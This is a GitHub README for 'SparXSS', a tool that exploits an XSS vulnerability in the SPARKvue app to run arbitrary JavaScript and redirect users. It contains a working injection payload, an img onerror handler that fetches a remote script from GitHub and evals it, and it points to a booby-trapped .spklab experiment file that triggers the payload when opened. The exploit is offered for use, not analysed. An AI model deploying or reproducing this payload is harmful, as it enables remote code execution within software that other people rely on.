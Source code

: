 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App - Might not always be up to date

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)
- May add a tabbing feature to the javascript, but this is not a final decision as there is not too much of a point
